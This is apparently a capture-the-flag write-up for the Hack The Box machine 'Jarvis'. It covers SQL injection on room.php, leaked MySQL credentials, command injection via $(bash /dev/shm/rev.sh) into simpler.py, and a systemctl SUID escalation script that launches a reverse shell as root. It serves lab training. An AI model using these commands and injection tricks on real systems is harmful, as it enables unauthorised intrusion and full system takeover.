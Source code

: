 # jarvis : `10.10.10.143`

**Table Of Contents:**

<!-- TOC -->

- [jarvis : `10.10.10.143`](#jarvis--101010143)
  - [Enumerating database](#enumerating-database)
  - [Credentials](#credentials)
  - [Synopsis](#synopsis)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Lateral Movement](#lateral-movement)
  - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Enumerating database

- Extract all database names : `SELECT group_concat(0x0a,schema_name FROM information_schema.schemata`

---

## Credentials


| Service | Username | Password |
| :-------: | :--------: | :--------: |
|  mysql  | DBadmin | imissyou |

---

## Synopsis

Got sql injection on cod parameter on room.php page. Uploaded a reverse shell using outfile method and got `www-data`. From there, noticed www-data can run simpler.py file as user `pepper`.Bypassed all the forbidden characters to gain rce and got shell as pepper. systemctl has setuid set and pepper can execute that binary. With the help of gtfobins, got root. 👍

---

## Enumeration

### Opened Ports

- [ ] 22 (SSH)
- [ ] 80 (HTTP)

---

## FootHold

- On the homepage, `supersecurehotel.htb` discovered.
- The parameter `cod` on the room.php page was vulnerable to error based sql injection.
- ![](assets/20210630_015616_image.png)
- Got shell from sqlmap using --os-shell feature which is quite a 🌶 feature. I like it personally.
- User `www-data` can run a simpler.py file with as pepper. Finding way to escalate the privilege from www-data to pepper.

---

## Lateral Movement

- Noticed that `systemctl` has setuid set. Will give a try once got hold of pepper user.

  ```bash
  User www-data may run the following commands on jarvis:   
  ```
- Using `$(bash /dev/shm/rev.sh)` to bypass all those forbidden characters.

  ```bash
  www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper ./simpler.py -p
  ***********************************************
       _                 _   
   ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
  / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
  \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
  |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                  |_|               |_|    |___/ 
                                  @ironhackers.es

  ***********************************************

  Enter an IP: $(bash /dev/shm/rev.sh)
  ```
- Got user `pepper` 💥

---

## Privilege Escalation

- `systemctl` has setuid set.
- With the help of [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/#suid) , got access to root.

```bash
cd /tmp
TF=`mktemp`.service
echo '[Service] 
Type=oneshot 
ExecStart=/bin/bash /dev/shm/rev 
[Install] 
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
